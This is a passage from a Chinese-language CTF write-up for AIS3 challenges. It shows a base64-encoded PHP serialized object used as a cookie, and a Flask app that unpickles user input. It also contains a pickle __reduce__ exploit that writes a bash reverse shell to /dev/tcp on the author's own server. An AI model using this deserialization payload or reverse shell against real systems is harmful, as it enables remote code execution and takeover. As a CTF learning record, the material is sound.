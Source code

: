 把這一段給轉Base64
`Tzo0OiJVc2VyIjoyOntzOjQ6Im5hbWUiO3M6NjoiMTIzNDU2IjtzOjU6InRva2VuIjthOjQ6e2k6MDtzOjE6IjgiO2k6MTtzOjE6IjciO2k6MjtzOjE6IjgiO2k6MztzOjE6IjciO319`

放入餅乾
![](https://i.imgur.com/aw3971Y.png)


### 🐍Snake
How to read that flag?

https://snake.ais3.org/

點開不囉唆，直接是程式碼
```python
from flask import Flask, Response, request
import pickle, base64, traceback

Response.default_mimetype = 'text/plain'

app = Flask(__name__)

@app.route("/")
def index():
    data = request.values.get('data')
    
    if data is not None:
        try:
            data = base64.b64decode(data)
            data = pickle.loads(data)
            
            if data and not data:
                return open('/flag').read()

            return str(data)
        except:
            return traceback.format_exc()
        
    return open(__file__).read()
```

看起來是用get收base64後的parameter，然後很明顯有標準的pickle漏洞

我把程式碼分了兩段執行

先插一個reverse shell，再去執行它
```python
import base64
import requests
import pickle

import os

url = "https://snake.ais3.org/?data="

class Test(object):
    def __reduce__(self):
        return (os.system,('''echo "bash -c 'bash -i >& /dev/tcp/我的伺服器ip/7877 0>&1'" > /tmp/878''',))


r = pickle.dumps(Test(), protocol=0)
c = base64.b64encode(r)
payload = str(c)[2:-1]

url1 = url + payload
```